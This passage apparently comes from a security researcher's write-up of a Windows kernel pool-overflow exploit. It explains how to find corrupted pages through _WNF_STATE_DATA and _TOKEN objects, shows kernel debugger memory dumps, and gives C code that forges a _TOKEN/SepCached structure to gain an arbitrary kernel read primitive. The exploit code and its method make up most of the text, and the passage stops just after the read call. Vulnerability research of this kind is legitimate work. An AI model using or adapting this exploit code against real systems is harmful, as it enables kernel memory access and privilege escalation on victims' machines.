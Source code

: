 If the out of bound data is the malicious data, I can make sure the _WNF_STATA_DATA is not in the last corrupted page, I use this way to find out the last corrupted page so I can read the next normal page with _TOKEN object structure. The _WNF_STATE_DATA object in the last corrupted page is our manager object.

There is a LUID field in _TOKEN object, we gain it from out of bound read data, and match this LUID in array we created before, so that we finally find the worker object.

```
0: kd> dq 0xffffb0880d6ae000 // ===>  the last corrupted page
ffffb088`0d6ae000  00010001`00010001 00010001`00010001
ffffb088`0d6ae010  00010001`00010001 00010001`00010001
ffffb088`0d6ae020  00010001`00010001 00010001`00010001
ffffb088`0d6ae030  00010001`00010001 00010001`00010001
0: kd> dq 0xffffb0880d6af000 // ===> the first normal page
ffffb088`0d6af000  656b6f54`03880000 00000000`00000000
ffffb088`0d6af010  000007b8`00001000 00000000`00000108
ffffb088`0d6af020  ffffc10b`775e8b80 00000000`00000000
ffffb088`0d6af030  00000000`00008000 00000000`00000001
ffffb088`0d6af040  00000000`00000000 00000000`0008006d
```

![](https://whereisk0shl.top/20220823/5.png)

So far, I get the manager object name and worker object handle, then I construct a 0x1000 fake data include fake _TOKEN Object structure and a _WNF_STATE_DATA structure. I have already got the normal _TOKEN object structure content by invoking NtQueryWnfStateData before, I just need to change some value to gain arbitrary r/w primitive.

Read Primitive:

```
FakeSepCached = malloc(0x48);
    ZeroMemory(FakeSepCached, 0x48);
    *(USHORT*)((ULONG_PTR)FakeSepCached + 0x2A) = 0x8;
    *(UINT64*)((ULONG_PTR)FakeSepCached + 0x30) = ReadAddress;

    CorruptionData = malloc(OriginalSize);
    ZeroMemory(CorruptionData, OriginalSize);
    CopyMemory(CorruptionData, gOccupyWorkerToken, OriginalSize);

    *(PUINT64)((UINT64)CorruptionData + TokenOffset + 0x480) = (UINT64)FakeSepCached;
    *(PUINT64)((UINT64)CorruptionData + TokenOffset - 0x30) = (UINT64)3;

    Status = fNtUpdateWnfStateData(&gWorkerStateName, CorruptionData, OriginalSize, &TypeID, NULL, NULL, NULL); // ===> control manager object
    if (Status < 0) {
        free(CorruptionData);
        free(FakeSepCached);
        return FALSE;
    }
  // ===>  arbitrary read
    Status = fNtQueryInformationToken(
        TokenHandle,
        TokenBnoIsolation,
        &RecvBuffer,
        RecvBufferSize,
        &RecvBufferSize);
```
